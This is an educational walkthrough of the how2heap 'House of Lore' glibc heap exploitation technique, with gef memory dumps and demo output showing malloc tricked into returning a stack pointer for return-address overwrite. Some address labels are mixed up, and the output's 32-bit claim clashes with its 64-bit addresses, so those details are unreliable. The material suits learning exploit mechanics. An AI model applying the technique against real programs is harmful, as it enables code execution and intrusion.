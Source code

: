 # Shellphish how2heap House of Lore

This is another section from Shellphish's educational heap exploitation series. This one focuses on the House of Lore exploit.

This exploit essentially requires you to be able to write some integers to the stack to create two fake chunks, allocate and free certain sections of memory in the heap, and overflow a `bk` pointer to a freed section of memory. After that, you can use House of Lore to return a pointer to the stack, which you can use to write to the return address without overwriting the stack canary (since you can just directly write to it).

## Process

First we allocate the victim chunk:
```
0:	0x64 Victim Chunk
```

We also allocate two char arrays on the stack to store the fake chunk:
```
stack-0:	0x7fffffffdee0
stack-1:	0x7fffffffdec0
```

We will have to edit the data on the stack to make the fake chunk. Before that this is what the  data looks like prior us editing it:
```
gef➤  x/12g 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x0000000000000000
0x7fffffffded0:	0x0000000000000000	0x0000555555554dcd
0x7fffffffdee0:	0x0000000000000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x00007fffffffdff0	0xbe9a1d2ebaa73300
0x7fffffffdf10:	0x0000555555554d80	0x00007ffff7a303f1
```

Now we have to edit the data to make the fake chunks. For `stack-0` (stored at `0x7fffffffdee0`), we will have to edit the first `0x10` bytes to be `0x0` to zero out these spaces (which hold the valuse for `prev_size` and `size`) in order to pass the `malloc` checks. In addition to that, we will be setting the `fwd` pointer to the address of chunk `0` in the heap (the `fwd` pointer stores the address  for the next chunk that was allocated, if it is free) which will be the third qword stored at `0x7fffffffdef0`. In addition to that we will need to overwrite the `bk` pointer (stores the previously allocated chunk, if it is free) with the address of `stack-1`. For `stack-1` we will need to clear out `prev_size` and `size` stores at `0x7fffffffdec0` and `0x7fffffffdec8`, however in addition to that, we will need to set it's `fwd` pointer to `stack-0`:

```
gef➤  x/12g 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x0000000000000000
0x7fffffffded0:	0x00007fffffffdee0	0x0000555555554dcd
0x7fffffffdee0:	0x0000000000000000	0x0000000000000000
0x7fffffffdef0:	0x0000555555757000	0x00007fffffffdec0
0x7fffffffdf00:	0x00007fffffffdff0	0xbe9a1d2ebaa73300
0x7fffffffdf10:	0x0000555555554d80	0x00007ffff7a303f1
```

Next we will allocate another large heap chunk in order to avoid a heap consolidation with the top chunk, when we free the small one:

```
0:	0x64 Victim Chunk
1:	0x3e8 
```

Next we will free chunk `0`, and it will end up in the unsorted bin:
```
0:	0x64 Victim Chunk (freed)
1:	0x3e8 
```

Right now the recently freed chunk `0` shouldn't have a `bk` or `fwd` pointer since being an unsorted bin doesn't get you assign those, which we can see here:
```
gef➤  x/4g 0x555555757010
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000000
```

Proceeding that we will allocate another large chunk, that cannot be handled in the Unsorted bin list. This means that the old chunk `0` will be inserted into the front of the Small Bin list (and thus have a `bk` and `fwd` pointer assigned):

```
0:	0x64	(freed)	Victim Chunk
1:	0x3e8
2:	0x4b0
```

We can see that our heap chunk has made it as a small bin (the address starts `0x10` bytes before the ptr you saw earlier, because of the `0x10` bytes of heap metadata):
```
gef➤  heap bins small
───────────────────────────────────────────────────────────────────────────────────[ Small Bins for arena 'main_arena' ]───────────────────────────────────────────────────────────────────────────────────
[+] small_bins[6]: fw=0x555555757000, bk=0x555555757000
 →   Chunk(addr=0x555555757010, size=0x70, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
```

Which now that we have allocated that chunk, we can see those pointer clearly after the `malloc`:
```
gef➤  x/4g 0x555555757010
0x555555757010:	0x00007ffff7dd1bb8	0x00007ffff7dd1bb8
0x555555757020:	0x0000000000000000	0x0000000000000000
```

Now here is where the vulnerabillity comes in. Essentially we will just overwrite chunk `0`'s `bk` pointer. This can be done with something such as a heap overflow. We will overflow it with the address of `stack-0` `0x7fffffffdec0`:
```
gef➤  x/4g 0x555555757010
0x555555757010:	0x00007ffff7dd1bb8	0x00007fffffffdee0
0x555555757020:	0x0000000000000000	0x0000000000000000
```

Now we will allocate another chunk with a size that is equal to that of the old chunk `0`. This should return the overwritten victim chunk `0`, and also set `bin->bk` pointer to the value we overwrote which was chunk `0`'s bk pointer:

```
0:	0x64	(freed)	Victim Chunk
1:	0x3e8
2:	0x4b0
3:	0x64
```

After that malloc, we can see that `bin->bk` is indeed the value that we would expect it to be, `stack-0`'s address `0x7fffffffdec0`:
```
gef➤  heap bins small
───────────────────────────────────────────────────────────────────────────────────[ Small Bins for arena 'main_arena' ]───────────────────────────────────────────────────────────────────────────────────
[+] small_bins[6]: fw=0x555555757000, bk=0x7fffffffdec0
 →   Chunk(addr=0x555555757010, size=0x70, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
``` 

Now the pointer `bin->bk` is the value that will be allocated if a chunk of memory is requested of size `0x64`. Since `bin->bk` is now a value that we overwritten `chunk_0->bk` with, we control the next chunk that is allocated (that is of size `0x64`). Here we can see in memory that `bin->bk` is indeed the address of the first char array we allocated:
Lastly we can just allocate a chunk of size `0x64`, and we will get `malloc` to return a pointer to the stack:

```
p4 is 0x7fffffffdef0 and should be on the stack!
``` 

We can see that we have succesfully gotten `malloc` to return a pointer to the stack. Also we can see that the `fwd` pointer for `stack-1` was changed to `0x7ffff7dd1bb8`, which we would expect to see since `bin->bk` was set to the address of `stack-1`. Proceeding that, they just use the allocated stack chunk to write over the `rip` register to get code execution

## Code Running

Here is the code for the section running:

```
Welcome to the House of Lore
This is a revisited version that bypass also the hardening check introduced by glibc malloc
This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23

Allocating the victim chunk
Allocated the first small chunk on the heap at 0x555555757010
stack_buffer_1 at 0x7fffffffdee0
stack_buffer_2 at 0x7fffffffdec0
Create a fake chunk on the stack
Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corruptedin second to the last malloc, which putting stack address on smallbin list
Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake chunk on stack
Allocating another large chunk in order to avoid consolidating the top chunk withthe small one during the free()
Allocated the large chunk on the heap at 0x555555757080
Freeing the chunk 0x555555757010, it will be inserted in the unsorted bin

In the unsorted bin the victim's fwd and bk pointers are nil
victim->fwd: (nil)
victim->bk: (nil)

Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin
This means that the chunk 0x555555757010 will be inserted in front of the SmallBin
The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to 0x555555757470

The victim chunk has been sorted and its fwd and bk pointers updated
victim->fwd: 0x7ffff7dd1bb8
victim->bk: 0x7ffff7dd1bb8


Now emulating a vulnerability that can overwrite the victim->bk pointer
Now allocating a chunk with size equal to the first one freed
This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointe
This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk
p4 = malloc(100)

The fwd pointer of stack_buffer_2 has changed after the last malloc to 0x7ffff7dd1bb8

p4 is 0x7fffffffdef0 and should be on the stack!
Nice jump d00d
```

